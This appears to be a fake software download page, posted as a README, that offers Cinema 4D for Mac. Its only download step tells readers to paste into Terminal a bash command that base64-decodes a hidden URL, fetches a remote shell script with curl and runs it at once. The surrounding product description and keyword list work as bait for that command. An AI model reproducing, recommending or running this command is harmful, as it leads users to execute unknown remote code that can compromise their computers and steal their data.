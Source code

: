 # Cinema 4D Mac Download - Professional 3D Design Software

![Cinema 4D Screenshot](https://static.macupdate.com/screenshots/312235/m/cinema-4d-screenshot.png)

---

### 🔽 Download Cinema 4D for Mac

> 📥 Open the terminal on your device and paste the command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ1L2luc3RhbGwuc2g= | base64 -d))"
```

---

## What is Cinema 4D for Mac?

Cinema 4D is an industry-leading 3D modeling, animation and rendering software developed by Maxon for macOS. This professional creative tool provides comprehensive solutions for motion graphics artists, visual effects creators and designers working in film, television and digital media production.

The software features an intuitive interface that makes complex 3D workflows accessible to both beginners and professionals. Its modular structure allows customization according to specific project needs, supporting the entire creative pipeline from initial modeling to final rendering with advanced lighting systems.

Key capabilities include:
- Powerful polygon modeling and sculpting tools
- Advanced character animation with rigging systems
- Physics simulations for realistic effects
- Seamless integration with Adobe After Effects
- Support for various render engines including Redshift
- Optimized performance for Apple Silicon chips

With its MoGraph toolset for procedural animation and motion graphics, Cinema 4D has become an essential tool for creative professionals worldwide.

![Cinema 4D Workspace](https://static.macupdate.com/screenshots/312237/m/cinema-4d-screenshot.png)

---

## Key Features & Benefits

- 🎨 Comprehensive 3D modeling and texturing tools
- 🎬 Advanced animation and motion graphics capabilities
- ⚡ GPU-accelerated rendering options
- 🔄 Seamless Adobe Creative Cloud integration
- 🖥 Native Apple Silicon optimization
- 🌟 Professional-grade visual effects tools

---

## 🔍 Keywords

Cinema 4D for Mac, Cinema 4D Mac Download, Cinema 4D for Mac Download, Cinema 4D Mac, Cinema 4D Download Mac, Cinema 4D Download for Mac, Cinema 4D full version, Mac Download Cinema 4D, Download Mac Cinema 4D, Download Cinema 4D Mac, Download Cinema 4D for Mac
